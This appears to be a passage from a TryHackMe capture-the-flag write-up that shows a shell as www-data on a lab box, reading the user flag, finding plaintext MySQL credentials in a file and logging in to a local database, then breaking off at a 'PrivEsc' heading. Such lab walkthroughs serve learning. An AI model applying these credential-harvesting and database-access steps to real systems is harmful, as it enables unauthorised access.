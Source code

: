 ```
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 06:13:28 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

- User flag - itguy
```
www-data@THM-Chal:/home/itguy$ cat user.txt
cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

## Pivot to a user

- We find mysql login creds
```
www-data@THM-Chal:/home/itguy$ cat mysql_login.txt
cat mysql_login.txt
rice:randompass
```
- `netstat -ano` shows a #MySQL server running on the localhost
```
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
```
- We log into the server
```
www-data@THM-Chal:/home$ mysql -u rice -prandompass -h 127.0.0.1
mysql -u rice -prandompass -h 127.0.0.1
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 91
Server version: 5.7.28-0ubuntu0.16.04.2 (Ubuntu)

Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```
- This was a rabbit hole but at least I got experience with SQL

---
# PrivEsc
